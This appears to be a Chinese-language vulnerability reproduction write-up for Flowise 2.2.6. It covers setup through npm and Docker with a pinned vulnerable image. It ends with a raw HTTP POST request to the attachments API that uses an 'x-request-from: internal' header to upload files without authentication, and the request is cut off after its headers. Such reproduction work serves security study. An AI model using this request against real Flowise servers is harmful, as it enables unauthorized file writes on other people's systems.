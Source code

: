 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik9BfGX3uDS1kQIHaHG2xT6TtNupfEfL0z4Wxls4QpoT8LBoqHctJLAicw/640?wx_fmt=png&from=appmsg "")  
  
通过 fnm 安装 node.js：fnm install 22  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik9ia9w0OORX0By1vMMZB18rI8ibAthoQY4rwq4ibu2cta5fXSzKDs20KgUg/640?wx_fmt=png&from=appmsg "")  
  
安装 flowise：npm install -g flowise@2.2.6  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik9yu9Kf0RwoIXfgbKxicRkpWpCNdrKiceqfsLklwk4xGAlVKV7tQQ70aAw/640?wx_fmt=png&from=appmsg "")  
  
启动 flowise：npx flowise start  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik9lLdWU5LbicUPIKUc9sF7pqopic93Qq1vW5x1NfK7ahlXhicOWOP6RVP4g/640?wx_fmt=png&from=appmsg "")  
  
访问 localhost:3000  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik9zDnbCkmqmokG35BOX7MiaWukUSLQdYF9E7NlDDZVvKEdykDguGcLXBg/640?wx_fmt=png&from=appmsg "")  
### 2) docker 搭建  
  
1.下载 flowise 安装包：wget https://codeload.github.com/FlowiseAI/Flowise/zip/refs/tags/flowise%402.2.6  
。  
  
2.解压安装包。  
  
3.打开文件夹中的 docker 文件夹，将里面的 .env.example  
 复制一份并改成 .env  
。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik9bZWKUeFYkh9wjnqrGYrmict0pTmD7S6NT6W3fNjMzFpXw4JLoEsNQwg/640?wx_fmt=png&from=appmsg "")  
  
4.由于官方的 docker-compose.yml  
 是默认拉取最新的镜像，所以在安装时，需要修改 image  
 参数为漏洞版本的镜像。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik9yEFaicE9EKAVAiayWIkFbIO5fEV8EFNujz0lheXvObtGUPOfiaT8jnfiaA/640?wx_fmt=png&from=appmsg "")  
  
5.最后启动：docker-compose up -d  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik9cjfVWoQy0ibsxuG7dzp4YfebMmPxYibUz9wurzRXLicU336GRDK2Xc8mA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik98oXlFicfrSPZQv9ENPiaP8EiaHFcHexegWTE1szqYEJoKSywQpqqe4E2g/640?wx_fmt=png&from=appmsg "")  
## 0x05 漏洞复现  
  
1.上传文件后，可以在目标机器上看到test.txt  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVsiaQbiaMqYIw04iaMGdd8O1Ik9YksZudA0HAQbwjJiaF6KhohQFEH7bqiblmJBO08QO006jQ4Uf5vVC5mg/640?wx_fmt=png&from=appmsg "")  
  
  
```
POST /api/v1/attachments/test/test HTTP/1.1 
Host: yourURL  
Accept: application/json, text/plain, */*  
x-request-from: internal  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36  
Sec-Fetch-Site: same-origin  
Sec-Fetch-Mode: cors  
Sec-Fetch-Dest: empty  
Referer: http://localhost:3000/apikey  
Accept-Encoding: gzip, deflate  
Accept-Language: zh-CN,zh;q=0.9  
Connection: close  
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW  
Content-Length: 213
  
```